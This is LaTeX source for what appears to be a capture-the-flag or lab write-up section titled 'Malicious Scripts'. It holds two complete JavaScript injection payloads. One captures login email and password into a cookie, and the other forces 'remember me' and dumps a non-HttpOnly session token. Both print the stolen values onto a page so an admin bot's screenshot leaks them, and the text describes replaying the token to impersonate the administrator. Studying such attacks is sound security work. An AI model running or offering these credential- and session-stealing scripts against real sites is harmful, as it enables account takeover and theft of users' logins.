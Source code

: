 \documentclass[parskip=half]{scrartcl}
\begin{document}
\clearpage
\newpage

\section*{Malicious Scripts}

\begin{lstlisting}[style=ES6, caption={Credential stealer script},
    label={lst:keylogger}]
const pathname = window.location.pathname;

const payload = async () => {
    document.documentElement.innerHTML = document.cookie;
}

const submitForm = event => {
    const email = document.querySelector("[name='email']");
    const pwd = document.querySelector("[name='password']");
    document.cookie = email.value + "=" + pwd.value;
}

if (pathname === "/login") {
    window.onload = () => {
        const form = document.querySelector("form");
        form.onsubmit = submitForm.bind(form);
    }
}

if (pathname === "/gradebook") payload();
\end{lstlisting}

The credential stealer script places creates a cookie from the email and
password entered into the log-in form by the administrator bot, and then
prints the cookie's contents into the gradebook page. When the bot takes a
screenshot of this page, the screenshot will contain the dumped credentials.

\clearpage

\begin{lstlisting}[style=ES6, caption={Refresh token stealer script},
    label={lst:refresher}]
const pathname = window.location.pathname;

const payload = async () => {
    let style = "font-family: monospace;";
    style += "max-width: 300px;";
    style += "word-wrap: break-word;";
    let str = `<p style="${style}">`;
    str += document.cookie + "</p>";
    document.documentElement.innerHTML = str;
}
    
if (pathname === "/login") {
    window.onload = () => {
        const chk = document.querySelector("[name='remember']");
        chk.checked = true;
    }
}
    
if (pathname === "/gradebook") payload();
\end{lstlisting}

The refresh token stealer script checks the ``remember me" option on the
administrator bot's browser, and so the remember token is stored in a cookie.
The script then dumps the remember token as in the credential stealer example.
This cookie is dumped since it does not have \texttt{HttpOnly} set.

We then recover the token's value using OCR and re-create the cookie. When the
server receives this cookie, it thinks we are the administrator and
authenticates our session.
\end{document}
